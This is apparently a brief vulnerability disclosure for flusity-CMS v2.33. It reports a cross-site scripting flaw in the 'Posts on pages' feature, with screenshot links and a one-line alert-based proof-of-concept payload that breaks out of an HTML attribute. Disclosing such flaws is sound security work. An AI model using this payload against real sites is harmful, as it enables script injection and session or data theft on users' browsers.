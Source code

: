 target:https://github.com/flusity/flusity-CMS
version: v2.33

There is Cross-Site Scripting (XSS)  vulnerability within the 'Posts on pages' .

![1](https://github.com/am0er/cms/assets/160312032/d4d191ad-a79a-457a-b014-ecdf9b4b187f)


poc:
```
 "><img src=1 onerror=alert(1)> 
```
successed

![2](https://github.com/am0er/cms/assets/160312032/5a2a6048-80a0-41de-94ae-a0a54f80dc5d)


